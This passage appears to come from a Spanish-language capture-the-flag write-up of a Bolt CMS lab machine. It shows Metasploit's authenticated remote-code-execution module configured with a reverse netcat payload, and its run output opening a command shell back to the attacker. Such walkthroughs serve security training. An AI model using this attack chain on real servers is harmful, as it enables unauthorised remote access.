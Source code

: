 ```
                                                   ps://docs.metasploit.com/do
                                                   cs/using-metasploit/basics/
                                                   using-metasploit.html
   RPORT              8000               yes       The target port (TCP)
   SSL                false              no        Negotiate SSL/TLS for outgo
                                                   ing connections
   SSLCert                               no        Path to a custom SSL certif
                                                   icate (default is randomly
                                                   generated)
   TARGETURI          /                  yes       Base path to Bolt CMS
   URIPATH                               no        The URI to use for this exp
                                                   loit (default is random)
   USERNAME           bolt               yes       Username to authenticate wi
                                                   th
   VHOST                                 no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to
                                       listen on. This must be an address on t
                                       he local machine or 0.0.0.0 to listen o
                                       n all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.201.35.222    yes       The listen address (an interface may be s
                                     pecified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)
```
#### Pregunta 8:
Una vez que ya hicimos lo del paso anterior, tenemos lo siguiente: **Busque flag.txt dentro de la máquina**, lo cual, sabiendo que contamos con el exploit configurado de forma correcta, lo corremos, mostrándonos lo siguiente:

```shell
msf6 exploit(unix/webapp/bolt_authenticated_rce) > run
[*] Started reverse TCP handler on 10.201.35.222:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "eaih".
[*] Found 3 potential token(s) for creating .php files.
[+] Deleted file kjjxbmoybp.php.
[+] Used token 51208302c8ff9f0eaf7728859c to create ddokmsgthyfm.php.
[*] Attempting to execute the payload via "/files/ddokmsgthyfm.php?eaih=`payload`"
[!] No response, may have executed a blocking payload!
[*] Command shell session 1 opened (10.201.35.222:4444 -> 10.201.114.180:49616) at 2025-10-21 02:30:11 +0100
[+] Deleted file ddokmsgthyfm.php.
```